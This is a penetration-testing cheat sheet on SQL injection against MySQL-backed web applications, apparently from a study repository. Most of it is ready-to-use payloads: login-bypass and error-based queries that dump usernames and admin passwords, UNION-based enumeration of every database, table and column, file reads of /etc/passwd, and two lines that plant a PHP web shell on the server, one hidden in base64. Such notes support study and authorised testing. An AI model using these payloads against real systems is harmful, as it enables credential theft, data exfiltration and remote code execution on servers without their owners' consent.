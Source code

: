 # SQL Injection

**References:**

- [HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection)
- [pentestmonkey](https://pentestmonkey.net/category/cheat-sheet/sql-injection)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
- [PortSwigger Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [invicti](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)

**Key Concept:** We start with a baseline of expected output, then attempt to error the database or extract information based on deviations from this expected output. These deviations can include anything from an on-screen error, to entirely different HTTP response codes.

**Note:** We can try adding semicolons before comments in case commands are not working

## Methodology

### Identification

Once we realize SQLi is possible by erroring the site, the **first thing** we need to do is figure out how to do is **inject data in the query without breaking it.**

**Example entrypoints:**

```
 [Nothing]
'
"
`
')
")
`)
'))
"))
`))
```

**Note:** For long pages, simply scroll to the bottom of burp and monitor when the number of lines changes in the page.

We can now confirm existence with numerical/string comparison:

```mysql
# Confirm with numerical comparison
' OR 1=1 -- //
'
# Confirm with string comparison
' OR '1'='1' -- //
```

### Error-based Payloads vs Authentication Queries

We can first attempt to dump information in an error response. This is particularly useful against authentication against authenticaton queries as a valid/invalid response will not display table information.

```mysql
# We can first attempt to view version information inside the error response
' OR 1=1 in (SELECT @@version) -- //
'
# We can now attempt to dump table information
' OR 1=1 in (SELECT * FROM users) -- //
'
# In the case where we can only query one column at a time
' OR 1=1 in (SELECT password FROM users) -- //
'
# We can now specify a user to dump the password for
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

Refer to [pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet) for additional example queries

### UNION-based payloads vs Search Queries

We can use `ORDER BY` and `UNION SELECT` in a search field to visualize and enumerate a database with many columns.

```mysql
# We first use ORDER BY and increment until we receive an error
' ORDER BY 1 -- //
' ORDER BY 1,2 -- //
' ORDER BY 1,2,3 -- //
' ORDER BY 1,2,3,4 -- //
' ORDER BY 1,2,3,4,5 -- //
' ORDER BY 1,2,3,4,5,6 -- //
# We now get the error "Unknown column '6' in 'order clause'" so we know the database has 6 columns

# We can now check to see which values are being returned by providing each column with an identifier that we can quickly index and check for in the response
' UNION SELECT 'Col1', 'Col2', 'Col3', 'Col4', 'Col5', 'Col6' -- //
' UNION SELECT CONCAT('Col', 1), CONCAT('Col', 2), CONCAT('Col', 3), CONCAT('Col', 4), CONCAT('Col', 5), CONCAT('Col', 6) -- //

# We can now rearange our statement to first query baseline information
' UNION SELECT null, database(), user(), @@version, null -- //
'
# Now we can query all databases available for us to enumerate (note: information_schema is default)
' UNION SELECT null, schema_name, null, null, null FROM information_schema.schemata -- //
'
# We can now query tables for our desired databases
' UNION SELECT null, table_name, null, null, null FROM information_schema.tables WHERE table_schema=database() -- //
' UNION SELECT null, table_name, null, null, null FROM information_schema.tables WHERE table_schema='another_db' -- //

# We can now query columns for our desired table
' UNION SELECT null, column_name, null, null, null FROM information_schema.columns WHERE table_schema=database() -- //
'
# We now have all the information we need to query table data
' UNION SELECT null, username, password, description, null FROM users -- //
' UNION SELECT null, username, password, description, null FROM users WHERE username='admin' -- //

# LFI (also works in error payload)
' UNION SELECT null, load_file('/etc/passwd'), null, null, null -- //
' UNION SELECT null, load_file('../../../../../../etc/passwd'), null, null, null -- //

# RCE (doesn't matter if PHP code is in viewable column)
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/shell.php" -- //
```

**Note:** We can also add a `%` before the single quote to bypass input validation

### Blind SQL Injections

Used in the case where database responses are never returned and behavior is inferred using either boolean or time-based logic.

```mysql
# Time based identification (value before ' must be exist for sleep to succeed, allowing us to identify existing values)
' AND IF (1=1, sleep(2),'false') -- //
```

## Additional Concepts

UNION-based attacks can be successful against an individual product page when performed using primary keys/ID's that don't exist as querying an undefined row will simply union the provided columns and return the values provided in the request (as they were originally undefined).

In the following UNION-based example, the product of ID 999 does not exist, leading to the union attack exposing the vesion within the output (as the corresponding unioned row)

```mysql
999' UNION SELECT 1,@@version,3,4,5,6,7,8 -- //
```

### SQLI2RCE

Figure out what directory you have write permissions to (MySQL is /var/lib/mysql)

```mysql
'; select from_base64("PD9waHAKc3lzdGVtKCRfR0VUWydjbWQnXSk7Cj8+Cg==") into dumpfile '/var/lib/mysql/shell.php' -- //
```

Requires a method of executing the file (LFI, CSRF, etc.)
